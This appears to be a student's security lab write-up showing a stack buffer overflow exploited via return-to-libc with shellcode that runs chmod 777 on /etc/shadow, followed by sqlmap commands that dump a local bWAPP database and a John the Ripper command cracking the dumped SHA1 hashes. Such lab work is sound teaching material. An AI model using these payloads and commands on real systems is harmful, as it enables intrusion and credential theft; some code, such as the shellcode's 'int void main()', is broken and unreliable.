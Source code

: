 # TangTamNhu
# Lab #1, 20110431, Tang Tam Nhu, INSE3308E_03FIE
# Task 1: Software buffer overflow attack
 
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode in C. This shellcode executes chmod 777 /etc/shadow without having to sudo to escalate privilege
```
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x89\xc3\x31\xd8\x50\xbe\x3e\x1f"
"\x3a\x56\x81\xc6\x23\x45\x35\x21"
"\x89\x74\x24\xfc\xc7\x44\x24\xf8"
"\x2f\x2f\x73\x68\xc7\x44\x24\xf4"
"\x2f\x65\x74\x63\x83\xec\x0c\x89"
"\xe3\x66\x68\xff\x01\x66\x59\xb0"
"\x0f\xcd\x80";

int
void main() {
    int (*ret)() = (int(*)())code;
}
```
**Question 1**:
- Compile both C programs and shellcode to executable code. 
- Conduct the attack so that when C executable code runs, shellcode willc also be triggered. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:
  
Description text (optional)
- We'll create 2 file `taskbuffer.c` and `shellcode.c` that contains 2 code content above
- Here is the stack frame `taskbuffer.c` program:
![stackframe](image-1.png)

- Compile `taskbuffer.c` program and `shellcode.c` program to executable code.
      
![img0](image-2.png)

- We will use Code Insert to insert shellcode directly into the program.
- We will create a payload that includes:
- First 16 bytes to fill the buffer.
- The shellcode address to override the program's return address.
- Use an older bash and turn off randomly given stack value.

![img1](image-3.png)

- Create environmet variable `nhu` with `export`
  
![img2](image-4.png)

- We need to find the address of `system`, `exit` and `nhu` variable and load `taskbuffer.out` into `gdb` and find them.
  - Address value of system: `0xf7e50db0` will be inserted with format `\xb0\x0d\xe5\xf7`
  - Address value of exit: `0xf7e449e0` will be inserted with format `\xe0\x49\xe4\f7`
  - Address value of the string of `nhu`: `0xffffde58` will be inserted with format `\x58\xde\xff\xff`
 
![img3](https://github.com/user-attachments/assets/cfe172ed-b234-4c03-8190-4f101d198441)

- Examine the stack frame. We need to add 20 bytes of padding, followed by the system address (4 bytes), exit (4 bytes), and preload (4 bytes). Thus, this is our directive:
```
r $(python -c "print('a'*20 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' +  '\x58\xde\xff\xff')")
```
![frame-system](https://github.com/user-attachments/assets/200582bf-198b-48b6-8522-e91b596af9ac)
![img4](https://github.com/user-attachments/assets/7eda45ff-b92b-43a1-8199-a9f8d24dd397)


output screenshot (optional)

- Before
  
![img5]()

- After

![win]()


**Conclusion**: The buffer overflow vulnerability in the C program was successfully exploited using shellcode injection, return-to-lib-c.

# Task 2: Attack on the database of bWapp 
- Install bWapp (refer to quang-ute/Security-labs/Web-security). 
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**: 
- Use the command below to get users information and crack the password
```
python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=ad&Password=asd" --dbs --batch
```
![sql2](image-5.png) 

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**: 
- Use the command below to get tables
```
python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=ad&Password=asd" --dbs --tables --batch

```
![sql3](image-6.png)

- Use the command below to get users information and crack the password
```
python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=ad&Password=asd" --dump --batch
```
![sql4](image-8.png)

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
- We already dumpped and stored the hashed password to a file for further exploit.
- To identity the hash algorithm, we will use hashid which is a library in python (hashid -mj hash_pw.txt)
![alt text](image-13.png)
- According to Hashid, john, notably the raw-sha1 format, can be used to crack the encryption: https://github.com/openwall/john/blob/bleeding-jumbo/doc/INSTALL-UBUNTU
```
    john --format=Raw-SHA1 hash_pw.txt
```
![alt text](./img/image-5.png)
